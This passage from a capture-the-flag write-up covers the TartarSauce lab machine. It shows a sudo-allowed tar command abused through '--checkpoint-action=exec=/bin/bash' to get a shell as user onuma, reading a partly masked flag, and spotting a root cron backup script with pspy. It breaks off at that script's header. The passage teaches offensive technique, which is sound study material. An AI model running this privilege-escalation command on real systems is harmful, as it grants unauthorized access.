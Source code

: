 We’ll take advantage of the `tar` options for checkpoints. The
`--checkpoint=x` flag tells tar to take some action every x bytes, as a
progress update. The default behavior is to print a status message. However,
the `--checkpoint-action` parameter allows the user to specify what action to
take at a check point. So I can have it just give me a shell:

    
    
    www-data@TartarSauce:/$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
    <ll /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
    tar: Removing leading `/' from member names
    onuma@TartarSauce:/$ id
    id
    uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
    

### user.txt

The shell, get user flag:

    
    
    onuma@TartarSauce:~$ wc -c user.txt
    33 user.txt
    onuma@TartarSauce:~$ cat user.txt
    b2d6ec45...
    

## Partial Privesc: onuma –> File Read as root

As far as I know, there’s no way to exploit this box to get a root shell. But
I can read files as root.

### Identify cron with pspy

[pspy](https://github.com/DominicBreuker/pspy) is my go-to for processes
detection. In this case, letting `pspy32` run for a bit shows a script that
runs as root every 5 minutes:

    
    
    2018/05/29 07:56:33 CMD: UID=0    PID=24065  | /bin/bash /usr/sbin/backuperer
    

### Understanding backeruperer

The script is as follows:

    
    
    #!/bin/bash
    
    #-------------------------------------------------------------------------------------
    # backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
    # ONUMA Dev auto backup program
    # This tool will keep our webapp backed up in case another skiddie defaces us again.
    # We will be able to quickly restore from a backup in seconds ;P
    #-------------------------------------------------------------------------------------
    